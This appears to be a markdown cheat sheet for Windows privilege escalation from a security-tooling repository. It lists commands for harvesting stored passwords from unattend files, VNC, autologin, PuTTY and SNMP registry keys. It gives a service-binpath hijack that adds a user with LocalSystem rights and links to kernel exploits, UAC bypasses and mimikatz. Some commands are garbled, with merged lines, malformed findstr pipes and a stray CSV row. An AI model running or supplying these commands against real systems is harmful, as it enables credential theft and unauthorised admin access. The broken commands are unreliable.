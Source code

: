 # Windows Priv escalation 

### Stored credentials
- Search for credentials within:
```
c:\unattend.xml<br/>
Unattend credentials are stored in base64 and can be decoded manually with base64:<br/>
user@host $ base64 -d cABhAHMAcwB3AG8AcgBkAFAAYQBzAHMAdwBvAHIAZAA=<br/>
```

- Metasploit Framework enum_unattend module and gather credentials module:<br/>
```
http://dev.metasploit.com/redmine/projects/framework/repository/entry/modules/post/windows/gather/enum_unattend.rb<br/>
http://dev.metasploit.com/redmine/projects/framework/repository/entry/modules/post/windows/gather/credentials/gpp.rb


c:\sysprep.inf<br/>
c:\sysprep\sysprep.xml<br/>
dir c:\*vnc.ini /s /b<br/>
dir c:\*ultravnc.ini /s /b<br/>
dir c:\ /s /b | findstr /si *vnc.ini<br/>

findstr /si password *.txt | *.xml | *.ini<br/>
findstr /si pass *.txt | *.xml | *.ini<br/>
```

- Password recovery programs - small - RDP, Mail, IE, VNC, Dialup, Protected Storage...<br/>
```
http://www.nirsoft.net/password_recovery_tools.html<br/>
Dumping cleartext credentials with mimikatz<br/>
http://pauldotcom.com/2012/02/dumping-cleartext-credentials.html
```
---------------------

### Reg Query


#### VNC Stored:<br/>
- reg query "HKCU\Software\ORL\WinVNC3\Password"

#### Windows Autologin:<br/>
- reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"


#### SNMP Parameters:<br/>
- reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"


### Putty clear text proxy credentials:<br/>
- reg query" HKCU\Software\SimonTatham\PuTTY\Sessions"


#### Search the registry - copy (pipe) to the clipboard (optional)<br/>
- reg query HKLM /f password /t REG_SZ /s [ |clip]<br/>
- reg query HKCU /f password /t REG_SZ /s [ |clip]

--------------------
### Change the upnp service binary

```
sc qc upnphostsc config upnphost binpath= "net user <username> /add"<br/>
sc config upnphost obj= ".\LocalSystem" password =""<br/>
net stop upnphost<br/>
net start upnphost<br/>
```

----------------------
## Local Exploit

###  Vulnerability Privilege Escalation


#### Windows kernel privilege escalation
- KiTrap0D<br/>
    - http://lock.cmpxchg8b.com/c0af0967d904cef2ad4db766a00bc6af/KiTrap0D.zip

- Tomcat Windows privilege escalation<br/>
    - http://www.abysssec.com/blog/2008/11/27/tomcat-jrun-privilege-escalation-windows

- NtGdiEnableEudc Exploit (MS11-011) - windows XP SP0-3<br/>
16262,platforms/windows/dos/16262.,"MS11-011(CVE-2011-0045): MS Windows XP WmiTraceMessageVa Integer Truncation Vulnerability<br/> PoC",2011-03-01,"Nikita Tarakanov",windows,dos,0<br/>

```
http://www.securityfocus.com/bid/46136/exploit<br/>
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-0045<br/>
http://downloads.securityfocus.com/vulnerabilities/exploits/46136.c<br/>
http://cissrt.blogspot.com/2011/02/cve-2011-0045-ms-windows-xp.html<br/>
http://www.microsoft.com/technet/security/Bulletin/MS11-011.mspx<br/>
```

- Service Tracing Key (MS10-059)<br/>
```
http://www.securityfocus.com/bid/42269/exploit<br/>
http://www.argeniss.com/research/ARGENISS-ADV-081002.txt<br/>
http://www.securityfocus.com/data/vulnerabilities/exploits/Chimichurri.zip<br/>
http://www.cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2554
```

- Registry Symlink Vuln (MS10-021)<br/>
    - No Public Exploit - VuPEN membership only

- Ryujin - ADF.sys priv esc - ms11-080<br/>

```
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-2005<br/>
http://www.exploit-db.com/exploits/18176<br/>
pyinstaller - http://www.pyinstaller.org/<br/>
py2exe - http://www.py2exe.org/
```

- UAC Bypass priv esc<br/>
```
http://www.exploit-db.com/exploits/15609<br/>
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-4398<br/>
http://www.microsoft.com/technet/security/Bulletin/MS11-011.mspx<br/>
http://www.securityfocus.com/bid/45045/info
```

Additional References and sources and other links:<br/>
http://www.fuzzysecurity.com/tutorials/16.html <br/>

Encyclopaedia of Windows Privilege escalation - Brett Moor<br/>
http://www.ruxcon.org.au/2011-talks/encyclopaedia-of-windows-privilege-escalation/</username>
